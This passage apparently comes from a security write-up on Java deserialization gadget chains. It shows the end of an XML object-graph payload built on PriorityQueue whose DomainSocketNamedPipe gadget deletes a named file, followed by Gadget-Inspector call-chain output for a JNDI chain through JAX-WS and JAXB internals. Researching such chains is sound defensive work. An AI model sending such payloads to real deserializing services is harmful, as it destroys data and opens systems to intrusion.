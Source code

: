 ```xml
                                                <parent class="sun.plugin2.ipc.unix.DomainSocketNamedPipe">
                                                    <sockClient>
                                                        <fileName>D:\temp\1.txt</fileName>
                                                        <unlinkFile>true</unlinkFile>
                                                    </sockClient>
                                                    <connectionSync/>
                                                </parent>
                                            </channel>
                                            <closeLock/>
                                        </in>
                                    </msg>
                                </part>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>

```

##### jndi

Gadget-Inspector调用链输出如下。

```
  com/sun/xml/internal/ws/client/ResponseContext.get(Ljava/lang/Object;)Ljava/lang/Object; (0)
  com/sun/xml/internal/ws/encoding/xml/XMLMessage$XMLMultiPart.getAttachments()Lcom/sun/xml/internal/ws/api/message/AttachmentSet; (0)
  com/sun/xml/internal/ws/encoding/xml/XMLMessage$XMLMultiPart.getMessage()Lcom/sun/xml/internal/ws/api/message/Message; (0)
  com/sun/xml/internal/ws/message/JAXBAttachment.getInputStream()Ljava/io/InputStream; (0)
  com/sun/xml/internal/ws/message/JAXBAttachment.asInputStream()Ljava/io/InputStream; (0)
  com/sun/xml/internal/ws/message/JAXBAttachment.writeTo(Ljava/io/OutputStream;)V (0)
  com/sun/xml/internal/ws/db/glassfish/BridgeWrapper.marshal(Ljava/lang/Object;Ljava/io/OutputStream;Ljavax/xml/namespace/NamespaceContext;Ljavax/xml/bind/attachment/AttachmentMarshaller;)V (0)
  com/sun/xml/internal/bind/api/Bridge.marshal(Ljava/lang/Object;Ljava/io/OutputStream;Ljavax/xml/namespace/NamespaceContext;Ljavax/xml/bind/attachment/AttachmentMarshaller;)V (0)
  com/sun/xml/internal/bind/v2/runtime/BridgeImpl.marshal(Ljavax/xml/bind/Marshaller;Ljava/lang/Object;Ljava/io/OutputStream;Ljavax/xml/namespace/NamespaceContext;)V (0)
  com/sun/xml/internal/bind/v2/runtime/MarshallerImpl.write(Lcom/sun/xml/internal/bind/v2/runtime/Name;Lcom/sun/xml/internal/bind/v2/runtime/JaxBeanInfo;Ljava/lang/Object;Lcom/sun/xml/internal/bind/v2/runtime/output/XmlOutput;Ljava/lang/Runnable;)V (2)
  com/sun/xml/internal/bind/v2/runtime/XMLSerializer.childAsXsiType(Ljava/lang/Object;Ljava/lang/String;Lcom/sun/xml/internal/bind/v2/runtime/JaxBeanInfo;Z)V (3)
  com/sun/xml/internal/bind/v2/runtime/ClassBeanInfoImpl.serializeAttributes(Ljava/lang/Object;Lcom/sun/xml/internal/bind/v2/runtime/XMLSerializer;)V (0)
  com/sun/xml/internal/bind/v2/runtime/reflect/NullSafeAccessor.get(Ljava/lang/Object;)Ljava/lang/Object; (0)
  com/sun/xml/internal/bind/v2/runtime/reflect/Lister$CollectionLister.startPacking(Ljava/lang/Object;Lcom/sun/xml/internal/bind/v2/runtime/reflect/Accessor;)Ljava/lang/Object; (2)
  com/sun/xml/internal/bind/v2/runtime/reflect/Lister$CollectionLister.startPacking(Ljava/lang/Object;Lcom/sun/xml/internal/bind/v2/runtime/reflect/Accessor;)Ljava/util/Collection; (2)
  com/sun/xml/internal/bind/v2/runtime/reflect/Accessor$GetterSetterReflection.set(Ljava/lang/Object;Ljava/lang/Object;)V (0)
```

